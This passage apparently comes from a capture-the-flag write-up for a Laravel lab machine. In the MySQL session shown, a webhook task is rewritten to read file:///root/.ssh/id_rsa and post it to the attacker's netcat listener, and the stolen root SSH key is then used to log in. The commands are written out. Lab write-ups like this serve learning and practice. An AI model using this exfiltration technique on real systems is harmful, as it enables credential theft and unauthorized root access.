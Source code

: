 ```console
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> use laravel
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
```

Before running our exploit we are going to create a webhook on the same webpage.

My settings were as follows

![image](https://user-images.githubusercontent.com/105310322/194601049-d9a1351d-bf2e-4e54-b3f1-b6d11ff20e31.png)


Then on the mysql database we are going to run our command to update the task aka "webhook" that we just created. Dont forget to setup your listner to catch the file.

```console
mysql> update tasks set monitoredUrl='file:///root/.ssh/id_rsa';
Query OK, 1 row affected (0.00 sec)
Rows matched: 1  Changed: 1  Warnings: 0

mysql> select * from tasks;
+--------------------------------------+-------------------------+-----------+--------------------------+-------------+---------------------+---------------------+
| id                                   | webhookUrl              | onlyError | monitoredUrl             | frequency   | created_at          | updated_at          |
+--------------------------------------+-------------------------+-----------+--------------------------+-------------+---------------------+---------------------+
| aad2d3c3-1b60-44d0-9785-3dc407f4b480 | http://10.10.16.19:1234 |         0 | file:///root/.ssh/id_rsa | */1 * * * * | 2022-10-07 15:48:43 | 2022-10-07 15:48:43 |
+--------------------------------------+-------------------------+-----------+--------------------------+-------------+---------------------+---------------------+
1 row in set (0.00 sec)

mysql> 
```


On our listener we catch the root ssh key. After formatting we have a proper ssh key and can login as root.

Note: Because the file is output in extended format I ran it in visual studio and changed all occurences of /n to enter and \/ to /


```console
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.19] from (UNKNOWN) [10.129.62.210] 35268
POST / HTTP/1.1
Host: 10.10.16.19:1234
Accept: */*
Content-type: application/json
Content-Length: 1832
Expect: 100-continue

```